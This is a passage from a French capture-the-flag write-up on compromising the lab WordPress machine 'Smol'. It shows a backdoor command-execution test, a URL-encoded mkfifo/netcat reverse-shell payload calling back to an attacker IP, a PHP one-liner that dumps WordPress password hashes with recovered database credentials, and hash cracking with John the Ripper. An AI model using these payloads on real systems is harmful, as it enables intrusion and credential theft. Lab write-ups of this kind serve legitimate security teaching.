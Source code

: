 Testons l'exécution de commandes via le paramètre `cmd` :

```
http://www.smol.thm/wp-admin/index.php?cmd=ls
```

![Test du backdoor](https://cdn.abacus.ai/images/8faa5a6c-727a-4fa0-9564-e76fdd05b7a2.png)

{{< admonition success "Command Injection Confirmée !" >}}
Le backdoor fonctionne parfaitement ! Nous pouvons exécuter des commandes système.
{{< /admonition >}}

## **Phase 4 : Obtention d'un Reverse Shell**

### **Configuration du Reverse Shell**

Préparons notre listener netcat :

```bash
nc -lnvp 9001
```

Puis exécutons un payload de reverse shell via le backdoor :

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.14.96.113%209001%20%3E%2Ftmp%2Ff
```

Nous obtenons un shell en tant qu'utilisateur `www-data` !

## **Phase 5 : Énumération des Utilisateurs & Cracking**

### **Extraction des Hashes WordPress**

Utilisons les credentials de base de données pour extraire les hashes des utilisateurs WordPress :

```php
php -r '
$mysqli = new mysqli("localhost", "wpuser", "kbLSF2Vop#lw3rjDZ629*Z%G", "wordpress");
$res = $mysqli->query("SELECT user_login, user_pass FROM wp_users");
while($row = $res->fetch_assoc()) { print_r($row); }
'
```

![Extraction des hashes](https://cdn.abacus.ai/images/ba412e48-0497-42d2-973a-4546d363f411.png)

### **Cracking avec John the Ripper**

```bash
john --wordlist=rockyou.txt hash.hash
```

![john](https://i.imgflip.com/9z19d7.jpg)

{{< admonition success "Mot de Passe Cracké !" >}}
Le hash de l'utilisateur **diego** est cracké : **sandiegocalifornia**
